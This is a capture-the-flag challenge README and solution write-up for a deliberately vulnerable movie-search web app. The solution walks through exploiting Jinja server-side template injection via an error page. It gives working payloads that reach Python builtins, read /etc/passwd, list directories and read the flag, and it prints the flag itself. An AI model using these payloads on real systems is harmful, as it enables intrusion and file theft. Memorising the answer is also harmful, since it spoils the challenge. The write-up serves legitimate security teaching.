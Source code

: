 # movieDB

**Author: [`Malcolm Seyd`](https://github.com/malcolmseyd)**

**Category: `Web Easy`**

## Description

Ahoy, ye brave movie seekers! Welcome to MovieDB, where the flicks flow like mead and the security... well, let's just say it's a bit like an unlocked treasure chest in a Viking village. But fret not! With a sprinkle of humor and a dash of caution, we'll navigate these cinematic seas together, laughing in the face of cyber shenanigans. So grab your popcorn and let's pillage... I mean, peruse through our database of movie marvels!

## Organizers

Do not release the source code. This is solely a hosted challenge.

This challenge has an RCE vulnerability and must be resilient to fork bombs. As such, you should use the following command to limit the processes to whatever is appropriate.

```console
$ docker build -t moviedb .
$ docker run --rm -p 8000:8000 --pids-limit 100 moviedb
```

The container also contains a health check, use it as you will.

## Solution

This solution is a Jinja Server-Side Template Injection attack.

First, we check `robots.txt`, and we notice that the flag is at `/static/flag.txt`. Nice. Time to probe for file reading vulnerabilities.

If you pass a non-number into a numeric form input, it'll throw and exception and return it to the user:

```console
$ curl -s --get --data-urlencode "search=a" --data-urlencode 'max-year=whatever' http://localhost:8000

            <h1>Something went wrong!</h1>
            <pre>Traceback (most recent call last):
  File "/app/server.py", line 54, in home
    params.append(int(max_year))
                  ^^^^^^^^^^^^^
ValueError: invalid literal for int() with base 10: 'whatever'
</pre>
```

This string is vulnerable to template injection, so any input in this URL parameter will execute as a Jinja template.

After doing some research, and some trial and error, we can access [arbitrary builtins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) using the following template, which uses this to run `open("/etc/passwd").read()`.

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

I wrote a [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Extended%20(%5C%5Cn,%20%5C%5Ct,%20%5C%5Cx...)','string':'%5C%5Cn'%7D,';',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'BUILTINS'%7D,'get_flashed_messages.__globals__.__builtins__',true,false,true,false)URL_Encode(true)&input=e3tCVUlMVElOUy5saXN0KEJVSUxUSU5TLl9faW1wb3J0X18oInBhdGhsaWIiKS5QYXRoKCkuaXRlcmRpcigpKX19) that makes it easier to access the builtin object. We can write any code that doesn't contain an apostrophy and fits in one expression. Paste the resulting value in the URL bar for the value of `max-year`.

We can use this to read the contents of the filesystem:

```
{{BUILTINS.list(BUILTINS.__import__("pathlib").Path().iterdir())}}
    makes it return:
[PosixPath('healthcheck.sh'), PosixPath('static'), PosixPath('index.html'), PosixPath('movies.sqlite3'), PosixPath('server.py'), PosixPath('requirements.txt')]


{{BUILTINS.list((BUILTINS.__import__("pathlib").Path()/"static").iterdir())}}
    makes it return:
[PosixPath('static/pico.min.css'), PosixPath('static/flag.txt')]
```

There's the flag! Let's read it:

```
{{BUILTINS.open("static/flag.txt").read()}}
    makes it return:
vikeCTF{y0u_tH0Gh7_iT_w4S_5QL_1Nj3c7i0n}
```

Too easy! Executing a fork bomb or getting a reverse shell is left as an exercise to the reader.

## Flag

```
vikeCTF{y0u_tH0Gh7_iT_w4S_5QL_1Nj3c7i0n}
```
